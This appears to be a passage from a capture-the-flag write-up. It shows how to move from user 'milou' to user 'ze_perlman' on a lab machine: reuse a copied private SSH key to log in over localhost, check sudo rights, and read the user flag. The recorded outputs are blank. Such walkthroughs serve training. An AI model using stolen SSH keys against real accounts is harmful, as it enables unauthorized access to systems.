

5.6 Get access as "ze_perlman" (First flag)
1. On the victim's machine run the following.
milou@perlman:$ cd /dev/shm
milou@perlman:/dev/shm$ cp id_rsa ze_perlman
milou@perlman:/dev/shm$ chmod 600 ze_perlman
milou@perlman:$ ssh -i ze_perlman ze_perlman@localhost
Output:
Now you're “ze_perlman”.
2. Check out with can “ze_perlman” do.
ze_perlman@perlman:~$ sudo -l
Output:
3. Run the following commands.
ze_perlman@perlman:~$ ls
ze_perlman@perlman:~$ cat user.txt
Output:
